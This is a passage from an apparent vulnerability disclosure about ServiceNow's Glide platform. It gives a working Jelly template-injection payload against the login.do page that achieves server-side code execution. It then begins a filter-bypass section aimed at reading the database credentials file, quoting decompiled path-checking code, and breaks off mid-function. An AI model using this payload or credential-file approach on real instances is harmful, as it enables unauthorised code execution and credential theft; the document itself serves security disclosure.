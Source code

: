 Finally, we use this payload:

    
    
    /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly" xmlns:g='glide'><g:evaluate>gs.addErrorMessage(7*7);</g:evaluate></j:jelly></style>

And we get code execution!

![](https://cdn.prod.website-
files.com/64233a8baf1eba1d72a641d4/66b3be03c4b7998464b613d9_668f6d0f3b1fbe1cc8e30ab8_image%2520\(2\).png)

### Bug 3: Filesystem Filter Bypass

Javascript execution gives us significant access, but we weren't satisfied
with this. While script execution gets us significant access, the platform
enforces additional access controls on certain tables. This might mean that we
could not read everything sensitive in a hardened instance. Ideally, we would
like to read the credential file containing the database connection string and
connect to the DB directly. In the cloud, Glide stores the database
credentials under `/glide/nodes/[[node]]/conf/glide.db.properties`, so we
started to look at a way to access this.

One helper class that immediately stood out was `SecurelyAccess`. This class,
as its name implies, is designed to allow secure read access to certain files
on the filesystem only. The idea is you can write something like `new
SecurelyAccess("some/file/here").getBufferedReader()` to get a file handle to
an allowed file. The list of checks is extensive:

    
    
    public static boolean isValidFilePath(String fileName, boolean isDownloadFile, boolean existenceCheck) {
        // existenceCheck and isDownload file are both false in our case
        block11: {
            if (!SecurelyAccess.isAcceptableCmdArgOrFileName(fileName)) {
                Log.securityWarn((String)String.format(LogFormatEnum.NotAcceptableCmdArgOrFileName.getFormat(), fileName));
                return false;
            }
            if (fIgnoreFilePathRestrictions.isTrue()) {
                return true;
            }
            if (SecurelyAccess.isMaintOrZboot()) {
                return true;
            }
            try {
                if (fileName.contains("../")) {
                    Log.securityWarn((String)String.format(LogFormatEnum.NotAllowParentDirectoryInPath.getFormat(), fileName));
                    return false;
                }
                File proposedFile = new File(fileName);
                String filePath = proposedFile.getCanonicalPath().toLowerCase();
                if (existenceCheck && SecurelyAccess.isPathInList(filePath, FILEPATH_ALLOWLIST)) {
                    return true;
                }
                if (!existenceCheck && proposedFile.exists() && proposedFile.isDirectory()) {
                    Log.securityWarn((String)String.format(LogFormatEnum.NotAllowDirectoryPath.getFormat(), fileName));
                    return false;
                }
                String tempDir = SysFileUtil.getTempDir().getCanonicalPath().toLowerCase();
                if (filePath.startsWith(tempDir)) {
                    return true;
                }
                if (isDownloadFile) {